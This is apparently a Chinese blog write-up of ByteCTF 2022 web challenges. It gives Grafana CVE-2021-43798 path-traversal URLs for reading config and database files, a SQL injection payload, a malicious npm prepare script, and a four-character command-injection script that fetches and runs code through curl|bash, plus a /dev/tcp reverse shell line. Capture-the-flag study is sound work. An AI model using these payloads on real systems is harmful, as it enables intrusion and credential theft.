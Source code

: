 ```yaml
---
title: ByteCTF 2022 Web Writeup
date: 2022-09-26 19:20:00
updated: 2022-09-26 20:45:00
tags: [ctf, security]
description: ByteCTF2022 第9名 打的还不错的一场比赛
---
```


比赛时主要是做了ctf_cloud和typing_game两个题目，其中typing_game还是非预期解了，整体Web只差datamanager就AK了，不过`microservices`这道题目是大佬们出的，自己其实也没有去复现过。正好比赛结束还可以开靶机，可以抽空复现一下难题。

## easy_grafana

之前也遇到过类似的题目，考的是grafana的CVE-2021-43798目录穿越漏洞。

需要注意的点是这里要加`/#/`才能成功读到文件。

可以从`/public/plugins/bargauge/#/../../../../../../../../../../../../../../etc/grafana/grafana.ini`获取secret_key `SW2YcwTIb9zpO1hoPsMm`
`/public/plugins/bargauge/#/../../../../../../../../../../../../../../var/lib/grafana/grafana.db`获取password `b0NXeVJoSXKPoSYIWt8i/GfPreRT03fO6gbMhzkPefodqe1nvGpdSROTvfHK1I3kzZy9SQnuVy9c3lVkvbyJcqRwNT6/`
这里mysql拿到了mysql的密码和key,用这个解密工具
<https://github.com/jas502n/Grafana-CVE-2021-43798>解出密码就是flag啦。

![图 1](https://s2.loli.net/2022/09/26/xLNkUDGsPvyQZKf.png)  

`ByteCTF{e292f461-285e-47fc-9210-b9cd233773cb}`

## ctf_cloud
> 改编自真实漏洞环境。在云计算日益发达的今天，许多云平台依靠其基础架构为用户提供云上开发功能，允许用户构建自己的应用，但这同样存在风险。

普通用户可以往package.json里面加信息，然后管理员才可以把这个加进去的依赖装上，首先应该是拿到管理员账号，然后再是加个有洞的依赖打RCE什么的。

/signup这个路由的password字段是拼接进去的，这里应该有注入点。

```js
router.post('/signup', function(req, res, next) {
    var username = req.body.username;
    var password = req.body.password;

    if (username == '' || password == '')
        return res.json({"code" : -1 , "message" : "Please input username and password."});

    // check if username exists
    db.get("SELECT * FROM users WHERE NAME = ?", [username], function(err, row) {
        if (err) {
            console.log(err);
            return res.json({"code" : -1, "message" : "Error executing SQL query"});
        }
        if (row) {
            console.log(row)
            return res.json({"code" : -1 , "message" : "Username already exists"});
        } else {
            // in case of sql injection , I'll reset admin's password to a new random string every time.
            var randomPassword = stringRandom(100);
            db.run(`UPDATE users SET PASSWORD = '${randomPassword}' WHERE NAME = 'admin'`, ()=>{});

            // insert new user
            var sql = `INSERT INTO users (NAME, PASSWORD, ACTIVE) VALUES (?, '${password}', 0)`;
            db.run(sql, [username], function(err) {
                if (err) {
                    console.log(err);
                    return res.json({"code" : -1, "message" : "Error executing SQL query " + sql});
                }
                return res.json({"code" : 0, "message" : "Sign up successful"});
            });
        }
    });
});
```
这里每次signup都会先重置管理员password然后执行sql语句。考虑利用堆叠注入修改管理员密码，然后直接登,但是设注册时的password参数为', 0);UPDATE users SET PASSWORD = '123' WHERE NAME = 'admin';# 但是这个函数不支持执行多条sql。

发现可以插入多行，数据表没约束用户名唯一，sqlite 的 CONFLICT 不能用。

```
ek1ng', 0), ('admin', 'ek1ng', 1);--- 
```

拿到管理员权限后，可以通过npm包的prepare属性打rce了。

1. 点重置删除 package.json 和 node_modules
2. 上传 package.json

```python
import requests


def uploadFile(url, file, filename="", contentType="text/plain"):
    if filename == "":
        filename = os.path.basename(file)
    fp = open(file, "rb")
    data = {
        "file": (filename, fp, contentType)
    }
    headers = {
        "Cookie": "connect.sid=s%3AXtdzlDJSttltRleoO5VRaqnoQzLLD2HY.14%2Be48yUMyRQgjtK2nDpYdrvrekCAwMViWMbBc7h0IU"
    }
    res = requests.post(url, files=data, headers=headers)
    fp.close()
    return res


res = uploadFile("https://eea8061294ea1d51ca4df400f54e3413.2022.capturetheflag.fun/dashboard/upload",
                 "./pkg/package.json", "package.json")
print(res.status_code, res.text)
```

```
{
  "name": "pkg",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "prepare": "cat /flag / > /usr/local/app/public/c.txt"
  },
  "keywords": [],
  "author": "",
  "license": "ISC"
}
```

3. 设置 dependencies

POST的参数

```
{"dependencies":{"pkg": "file:./public/uploads"}}
```

4. 编译
5. 访问 /c.txt 查看内容

因为这里不出网所以只能往网站目录下面写来访问。

`ByteCTF{c98ecaae-4e6e-43da-a084-1f0d99034420}`

## typing_game

### 四字符命令注入弹Shell
> 题目描述：
我是练习时长两年半的nodejs菜鸟，欢迎来玩我写的小游戏

这个题目当时出的队伍不多只有11个，不过我的做法是非预期的，用的是四字符命令注入弹shell。

通过`/report?url=<http://127.0.0.1:13002/status?cmd=ls`可以访问到/status接口并且执行4字符的命令。exp编写参考[HitconCTF2017 BabyFirst Revenge v2的exp](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge-v2)。

这里需要注意的是必须先`rm *`，因为`*>v`这个命令默认的顺序是按照文件名称的，那么如果没有删掉`index.js`这个文件，会导致reverse file "v" to file "x"之后，x文件里面的内容是`ls index.js -th`,这就很尴尬了。

在服务器python3 -m http.server 8888起一个server并且放一个内容为sh -i >& /dev/tcp/xx.xxx.xxx.xxx/7777 0>&1,开启端口监听弹等shell弹过来就行。

```python
# encoding:utf-8
import requests
from time import sleep
baseurl = "https://e24f9597c9ab115b5116321ffbece014.2022.capturetheflag.fun/report?url=http://localhost:13002/status?cmd="

s = requests.session()


# 将ls -t 写入文件_
list = [
    'rm *',
    # generate "g> ht- sl" to file "v"
    '>dir',
    '>sl',
    '>g\>',
    '>ht-',
    '*>v',
    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',
]
# curl xx.xxx.xxx.xxx:8888|bash
list2 = [
    ">sh",
    ">ba\\",
    ">\|\\",
    ">8\\",
    ">88\\",
    ">:8\\",
    ">xx\\",
    ">x\\",
    ">x.\\",
    ">xx\\",
    ">x.\\",
    ">xx\\",
    ">x.\\",
    ">x\\",
    ">\ \\",
    ">rl\\",
    ">cu\\",
]
for i in list:
    url = baseurl+str(i)
    res = s.get(url)
    print(res.text)
    sleep(35)
for j in list2:
    url = baseurl+str(j)
    res = s.get(url)
    print(res.text)
    sleep(35)
s.get(baseurl+"sh x")
sleep(35)
print("!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!")
print("!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!")
print("!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!")
print("!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!")
print("!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!")
s.get(baseurl+"sh g")
sleep(35)
```

最后在在环境变量中找到flag。

![图 2](https://s2.loli.net/2022/09/26/WBm5zSsNua3ifo2.png)  

可能也许这也是出题人预期的一种吧不然为啥是四字符呢，假如改成3字符唯一的做法就是xss带出回显然后执行`env`拿到flag了，不过这好像没有特别大的意义吧。

### XSS带出命令执行回显
等我复现完就来写（

最近感觉题目复现的多了打比赛也没那么坐牢了，基本上都是有思路也能做出，就是熟练度的一些问题吧，继续加油。